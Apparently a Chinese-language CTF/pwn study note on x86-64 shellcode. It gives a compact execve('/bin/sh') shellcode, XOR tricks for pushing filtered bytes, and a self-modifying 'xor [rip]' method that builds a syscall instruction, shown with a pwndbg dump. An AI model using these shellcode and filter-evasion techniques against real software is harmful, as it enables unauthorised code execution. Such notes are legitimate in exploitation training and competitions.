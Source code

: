 使用 push,pop完成操作占用空间更小, mov 0x3b: `48c7c03b000000`, push pop: `6a3b58`

```sh
mov rax, 0x68732f6e69622f	/* /bin/sh\x00 */
push rax
push rsp
pop rdi			/* rdi -> /bin/sh */
xor esi, esi	/* rsi = 0 */
xor edx, edx	/* rdx = 0 */
push 0x3b
pop rax
syscall
```
## 执行到指定位置可以使用 pop rsi 这种滑板 或者 nop 滑板

## 绕过


```sh
# 把 0x6873 放到栈上
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
```
## 但是直接push一个值到栈上要注意：

push 只能push一个32位数，超过32位不能编译（起码用pwntools的asm是这样子）

push 超过一个字节的数，会自动补全成32位，比如push 0x6873，就会编译为 hsh\x00\x00

但是如果只是push一个字节，就会编译为2个字节，比如push 0x8，机器码为 j\x08

## 使用 xor rip 的方式不错

```sh
    xor rax,rax
    mov esi,0x20230000
    xor dword ptr [rip],0x9f
    nop
    """
```

```sh
*RIP  0x20230008 ◂— xor dword ptr [rip], 0x9f /* 0x9f000000003581 */
pwndbg> x/32bx  0x20230008                
0x20230008:     0x81    0x35    0x00    0x00    0x00    0x00    0x9f    0x00   
0x20230010:     0x00    0x00    0x90    0x05    0x00    0x00    0x00    0x00   
-- xor dword ptr [rip] -- 0x9f8135000000009f000000, rip指向的是下一条 0x90, 0x90 ^ 0x9f = 0xf 构成 0f05 - syscall
```